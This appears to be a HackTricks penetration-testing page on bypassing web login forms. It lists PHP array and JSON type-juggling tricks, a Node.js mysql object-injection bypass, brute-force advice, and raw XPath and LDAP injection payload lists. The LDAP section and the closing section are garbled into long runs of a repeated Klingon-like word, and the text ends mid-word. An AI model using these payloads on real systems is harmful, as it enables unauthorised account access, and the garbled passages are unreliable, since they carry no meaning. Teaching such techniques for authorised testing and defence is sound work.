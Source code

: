 # Login Bypass

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!HackTricks AWS Red Team Expert</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) is the most relevant cybersecurity event in **Spain** and one of the most important in **Europe**. With **the mission of promoting technical knowledge**, this congress is a boiling meeting point for technology and cybersecurity professionals in every discipline.

{% embed url="https://www.rootedcon.com/" %}

## **Bypass regular login**

If you find a login page, here you can find some techniques to try to bypass it:

* Check for **comments** inside the page (scroll down and to the right?)
* Check if you can **directly access the restricted pages**
* Check to **not send the parameters** (do not send any or only 1)
* Check the **PHP comparisons error:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
* **Change content type to json** and send json values (bool true included)
* If you get a response saying that POST is not supported you can try to send the **JSON in the body but with a GET request** with `Content-Type: application/json`
* Check nodejs potential parsing error (read [**this**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
* Nodejs will transform that payload to a query similar to the following one: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` which makes the password bit to be always true.
* If you can send a JSON object you can send `"password":{"password": 1}` to bypass the login.
* Remember that to bypass this login you still need to **know and send a valid username**.
* **Adding `"stringifyObjects":true`** option when calling `mysql.createConnection` will eventually b**lock all unexpected behaviours when `Object` is passed** in the parameter.
* Check credentials:
* [**Default credentials**](../../generic-methodologies-and-resources/brute-force.md#default-credentials) of the technology/platform used
* **Common combinations** (root, admin, password, name of the tech, default user with one of these passwords).
* Create a dictionary using **Cewl**, **add** the **default** username and password (if there is) and try to brute-force it using all the words as **usernames and password**
* **Brute-force** using a bigger **dictionary (**[**Brute force**](../../generic-methodologies-and-resources/brute-force.md#http-post-form)**)**

### SQL Injection authentication bypass

[Here you can find several tricks to bypass the login via **SQL injections**](../sql-injection/#authentication-bypass).

In the following page you can find a **custom list to try to bypass login** via SQL Injections:

{% content-ref url="sql-login-bypass.md" %}
[sql-login-bypass.md](sql-login-bypass.md)
{% endcontent-ref %}

### No SQL Injection authentication bypass

[Here you can find several tricks to bypass the login via **No SQL Injections**](../nosql-injection.md#basic-authentication-bypass)**.**

As the NoSQL Injections requires to change the parameters value, you will need to test them manually.

### XPath Injection authentication bypass

[Here you can find several tricks to bypass the login via **XPath Injection.**](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP Injection authentication bypass

[**ghItlhvam** vItlhutlh **LDAP Injection** login **bypass** **tricks** **'ej** **tricks** **neH** **login** **bypass** **via** **yIlo'** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam** **'e'** **ghItlhvam** **'ej** **'e'** **ghItlhvam
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### Qapla'!

vaj pagh "**Qapla'**" pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pagh pag
